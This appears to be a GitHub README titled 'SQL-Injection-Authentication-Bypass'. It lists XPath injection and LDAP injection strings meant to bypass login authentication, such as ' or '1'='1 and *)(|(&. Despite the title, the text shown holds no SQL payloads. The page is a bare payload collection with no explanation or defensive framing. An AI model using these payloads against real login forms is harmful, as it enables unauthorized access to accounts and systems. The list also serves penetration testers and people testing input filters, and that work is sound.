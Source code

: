 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass

XPATH Injection Authentication Bypass:
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2

LDAP Injection Authentication Bypass:
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|

